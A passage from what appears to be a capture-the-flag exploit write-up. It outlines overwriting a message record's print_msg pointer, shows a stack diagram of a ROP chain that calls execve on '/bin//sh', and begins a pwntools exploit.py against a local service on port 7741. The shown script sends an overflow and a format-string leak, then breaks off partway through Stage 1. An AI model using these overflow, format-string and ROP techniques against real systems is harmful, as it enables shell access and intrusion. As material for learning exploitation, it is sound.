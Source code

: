 **_Stage 2_**  
1. Edit 1st msg record to overrun `*print_msg` field of 2nd one to `scanf`.  
2. Put rop chain to `ebp_main` by `scanf`.  
3. Quit to trigger rop chain.  

```bash
ROP for execve(char *filename, char **argv, char **envp);

+===============+ high
|   0x00000000  |
| ebp_main + 72 |<- ebp_main + 84
|   0x00000000  |<- [envp]
|     "//sh"    |
|     "/bin"    |<- ebp_main + 72
|               |
\               \
/               /
|               |
| ebp_main + 72 |<- [filename]
| ebp_main + 84 |<- [argv]
| ebp_main + 80 |
|               |<- pop edx; pop ecx; pop ebx; ret
|               |<- ebp_main
|               |
|_______________|
```
**_exploit.py_**  

```python
#!/usr/bin/env python2

from pwn import *

#
# setup context
#
context.log_level = 'debug'

#
# listen on 7741
#
r = remote('127.0.0.1', 7741)

printf_addr = 0x8050260
scanf_addr  = 0x80502c0

#
# Stage 1, reveal ebp of main
#

log.info("------Stage 1------")

# create two records
r.sendline("1")
r.sendline("131")
r.sendline("A" * 128 + '\xff\xff\xff')
r.sendline("1")
r.sendline("2")
r.sendline("A")

# edit 1st record
r.sendline("2")
r.sendline("0")
r.sendline("A" * 128 + '\xff\xff\xff\x0c' + '\xbc' * 8 + p32(printf_addr) + "%18$08x\n\x00")
#           message     msg_len             pad & size   print_msg          format string
```